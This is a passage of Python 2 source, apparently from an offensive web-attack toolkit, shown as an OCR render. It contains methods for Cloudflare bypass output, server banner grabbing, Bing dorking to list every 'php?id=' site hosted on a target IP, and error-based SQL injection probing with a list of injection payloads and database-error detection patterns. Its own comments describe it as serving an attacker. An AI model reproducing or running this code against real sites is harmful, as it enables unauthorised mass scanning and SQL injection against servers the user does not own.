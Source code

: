                         print ' [*] Cloudflare bypassed -> ', ddd
                        break
                except socket.error:
                    pass

    def getServerBanner(self):
        """
        simply gets the server banner
        the attacker may benefit from it
        like getting the server side software
        """
        clearScr()
        try:
            s = 'http://' + self.serverip
            httpresponse = urllib.urlopen(s)
            print ' [*] Server header -> ', httpresponse.headers.getheader('server')
        except:
            pass

    def grabSqli(self):
        """
        just grabs all websites in server with php?id= dork
        for scanning for error based sql injection
        """
        page = 1
        lista = []
        while page <= 101:
            try:
                bing = "http://www.bing.com/search?q=ip%3A" + \
                    self.serverip + "+php?id=&count=50&first=" + str(page)
                openbing = urllib2.urlopen(bing)
                readbing = openbing.read()
                findwebs = re.findall('<h2><a href="(.*?)"', readbing)
                for i in range(len(findwebs)):
                    x = findwebs[i]
                    lista.append(x)
            except:
                pass
            page += 50
        lista = unique(lista)
        self.checkSqli(lista)

    def checkSqli(self, s):
        """
        checks for error based sql injection,
        most of the codes here are from webpwn3r
        project the one who has found an lfi in
        yahoo as i remember, you can find a separate
        tool in my blog
        """
        clearScr()
        print "[~] Checking SQL injection"
        payloads = ["3'", "3%5c", "3%27%22%28%29", "3'><",
                    "3%22%5C%27%5C%22%29%3B%7C%5D%2A%7B%250d%250a%3C%2500%3E%25bf%2527%27"]
        check = re.compile(
            "Incorrect syntax|mysql_fetch|Syntax error|Unclosed.+mark|unterminated.+qoute|SQL.+Server|Microsoft.+Database|Fatal.+error", re.I)
        for url in s:
            try:
                for param in url.split('?')[1].split('&'):
                    for payload in payloads:
                        power = url.replace(param, param + payload.strip())

